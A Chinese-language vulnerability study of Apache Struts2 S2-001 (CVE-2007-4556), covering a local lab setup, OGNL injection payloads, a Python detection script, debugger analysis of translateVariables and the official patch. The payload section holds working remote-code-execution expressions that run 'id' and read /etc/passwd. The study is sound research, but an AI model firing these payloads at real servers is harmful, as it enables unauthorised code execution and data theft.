


* [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#payload)
         * [检测漏洞是否存在](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#检测漏洞是否存在)
         * [获取web目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#获取web目录)
         * [执行单一命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#执行单一命令)
         * [执行组合命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#执行组合命令)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-001/S2-001.md#参考)

## 前言

> 想学漏洞研究很久了,开发安全工具目前已经入门,是时候开始漏洞研究了,这是Struts系列第一篇,加油,争取早日挖出0day!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-001漏洞,又名CVE-2007-4556漏洞.

> 当提交表单并验证失败时,Strust2默认会原样返回用户输入的值而且不会跳转到新的页面,因此当返回用户输入的值并进行标签解析时,如果开启了altSyntax,会调用translateVariables方法对标签中表单名进行OGNL表达式递归解析并返回ValueStack值栈中同名属性的值.因此可以构造特定的表单值让其进行OGNL表达式解析从而达到任意代码执行.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-001)

#### 漏洞成因

> XWork包中altSyntax允许将OGNL表达式插入到文本字符串中并以递归方式处理

#### 漏洞影响范围

> WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8,

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,然后配置好Tomcat就可以运行了

### Payload

#### 检测漏洞是否存在

```java
%{78912+1235}
```
> 如果返回结果包含80147,则存在漏洞

#### 获取web目录

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

#### 执行单一命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```
#### 执行组合命令

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

### POC

```python
#!/usr/bin/env python3

import re
import requests

class S2_001_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-001漏洞,又名CVE-2007-4556漏洞',
            'description': 'Struts2 S2-001漏洞可执行任意命令, 影响范围为: WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8',
            'date': '2007-07-16',
            'type': 'RCE'
        }
        self.url = url
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
        }
        self.check_data = {
            'username': 12,
            'password': '%{78912+1235}'
        }
    
    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        try:
            check_req = requests.post(self.url, headers = self.headers, data = self.check_data)
            check_pattern = re.compile('<.*?name="password" value="(.*?)" ')
            check_result = check_pattern.findall(check_req.text)
            if check_result[0] == '80147':
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_001 = S2_001_BaseVerify('http://127.0.0.1:8080/login.action')
    S2_001.run()
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

本环境中漏洞形成的流程:

&emsp;&emsp;&emsp;&emsp;1.首先前端username输入框内输入admin,密码框输入%{1+1}.生成HTTP请求发送给服务端,经过一系列的标准过滤器到达FilterDispatcher过滤器

&emsp;&emsp;&emsp;&emsp;2.FilterDispatcher根据ActionMapper中的设置得知需要调用某个Action组件,这个ActionMapper是随着服务启动时根据struts.xml生成的一个映射数组,此次请求的是login.action,在struts.xml中有配置这个action,所以ActionMapper决定调用LoginAction组件,FilterDispatcher把请求的处理权委托给ActionProxy组件


&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获得Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类.在下图中可见到,这个目标Action组件类为org.test.LoginActoin


&emsp;&emsp;&emsp;&emsp;4.如下图所示,当用户名和密码都为空时返回error,当用户名和密码都为admin时返回success,其它情况也返回error.根据struts2.xml配置文件中的配置,action返回结果为error时跳转到index.jsp并显示输出




&emsp;&emsp;&emsp;&emsp;5.此时因提交表单并验证失败,由于Strust2默认会原样返回用户输入的值而且不会跳转到新的页面,当返回用户输入的值并进行标签解析时,开启了altSyntax,会调用translateVariables方法对标签中表单名进行OGNL表达式递归解析返回ValueStack值栈中同名属性的值,从而造成了漏洞的产生.因此我们可以构造特定的表单值让其进行OGNL表达式解析从而达到任意代码执行.


具体分析过程:

>1.在页面username输入admin,password输入%{1+1}


> 2.在LoginAction处打个断点,拦截到了输入的值,可看到变量的值,这段代码比较简单,只有username和password的值都为admin时才返回成功,其余返回error


> 3.根据LoginAction返回的error,struts_xml中会选择index.jsp进行渲染


> 4.jsp文件中遇到Struts2标签 <s:textfield 时程序会先调用 doStartTag,并将标签中的属性设置到TextFieldTag对象相应属性中.在遇到 /> 结束标签的时候调用doEndTag方法


> 5.在struts2-core-2.0.1.jar!/org/apache/struts2/views/jsp/ComponentTagSupport.class中找到doEndTag并设置断点


> 6.按F7进入到end方法,继续F7进入evaluateParams方法


> 7.在evaluateParams方法中可看到,如果开启altSyntax,将会在属性字段两边添加Ognl表达式字符( %{、} ),然后使用findValue方法从值栈中获得该表达式所对应的值


> 8.添加前和添加后的对比,可看到password变成了%{password}


> 9.F7进入findValue


> 10.看到了罪魁祸首translateVariables,F7进入,可看到translateVariables又调用了同名重载方法,问题就出在这里


```java
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, TextParseUtil.ParsedValueEvaluator evaluator) {
        Object result = expression;

        while(true) {
            int start = expression.indexOf(open + "{");
            int length = expression.length();
            int x = start + 2;
            int count = 1;

            while(start != -1 && x < length && count != 0) {
                char c = expression.charAt(x++);
                if (c == '{') {
                    ++count;
                } else if (c == '}') {
                    --count;
                }
            }

            int end = x - 1;
            if (start == -1 || end == -1 || count != 0) {
                return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
            }

            String var = expression.substring(start + 2, end);
            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }

            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            if (o != null) {
                if (TextUtils.stringSet(left)) {
                    result = left + o;
                } else {
                    result = o;
                }

                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }

                expression = left + o + right;
            } else {
                result = left + right;
                expression = left + right;
            }
        }
    }
```

刚进入函数时的expression为%{password}


第一次获取o的值,这里的stack为OgnlValueStack,它是ValueStack的实现类.ValueStack是Struts2的一个接口,表面意义为值栈,类似于一个数据中转站,Struts2的数据都会保存在ValueStack中.Struts2在发起请求创建Action实例的同时会创建一个OgnlValueStack值栈实例.Struts2使用OGNL将请求Action的参数封装为对象存储到值栈中,并通过OGNL表达式读取值栈中的对象属性值.

ValueStack中有两个主要区域:

&emsp;&emsp;&emsp;&emsp;CompoundRoot区域:是一个ArrayList,存储了Action实例,它作为OgnlContext的Root对象.获取root数据不需要加#

&emsp;&emsp;&emsp;&emsp;context区域:即OgnlContext上下文,是一个Map,放置web开发常用的对象数据的引用.request、session、parameters、application等.获取context数据需要加#

操作值栈,通常指的是操作ValueStack中的root区域.

OgnlValueStack的findValue方法可以在CompoundRoot中从栈顶向栈底找查找对象的属性值.


F7进入findValue方法


F7进入getValue方法,进入后根据name的值进行compile,name的值为password,会从root栈中LoginAction对象中获取到提交的参数%{1+1}并返回


o经过一些处理后赋值给expression,expression变为%{1+1}


继续循环,进过findValue处理后可看到ongl表达式已被执行,结果为2




## 漏洞修复

> 官方修复代码,其中是通过限制了循环递归的次数来修复的

```java
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, ParsedValueEvaluator evaluator, int maxLoopCount) {
    // deal with the "pure" expressions first!
    //expression = expression.trim();
    Object result = expression;
    int loopCount = 1;
    int pos = 0;
    while (true) {

        int start = expression.indexOf(open + "{", pos);
        if (start == -1) {
            pos = 0;
            loopCount++;
            start = expression.indexOf(open + "{");
        }
        if (loopCount > maxLoopCount) {
            // translateVariables prevent infinite loop / expression recursive evaluation
            break;
        }
        int length = expression.length();
        int x = start + 2;
        int end;
        char c;
        int count = 1;
        while (start != -1 && x < length && count != 0) {
            c = expression.charAt(x++);
            if (c == '{') {
                count++;
            } else if (c == '}') {
                count--;
            }
        }
        end = x - 1;

        if ((start != -1) && (end != -1) && (count == 0)) {
            String var = expression.substring(start + 2, end);

            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }


            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            String middle = null;
            if (o != null) {
                middle = o.toString();
                if (!TextUtils.stringSet(left)) {
                    result = o;
                } else {
                    result = left + middle;
                }

                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }

                expression = left + middle + right;
            } else {
                // the variable doesn't exist, so don't display anything
                result = left + right;
                expression = left + right;
            }
            pos = (left != null && left.length() > 0 ? left.length() - 1: 0) +
                  (middle != null && middle.length() > 0 ? middle.length() - 1: 0) +
                  1;
            pos = Math.max(pos, 1);
        } else {
            break;
        }
    }

    return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
}
```

## 总结

> 这是第一篇文章,搭建环境,学调试费了点时间,其余还好struts2漏洞的精髓在ongl表达式......

## 参考

> https://github.com/xhycccc/Struts2-Vuln-Demo

> https://www.cnblogs.com/twosmi1e/p/14020361.html

> https://mp.weixin.qq.com/s?__biz=MzUyMDEyNTkwNA==&mid=2247484169&idx=2&sn=308b4bab7df3ecdb3bdda6fe1e026ac6

> https://blog.csdn.net/super_YC/article/details/61628144

> https://lanvnal.com/2020/12/15/s2-001-lou-dong-fen-xi/
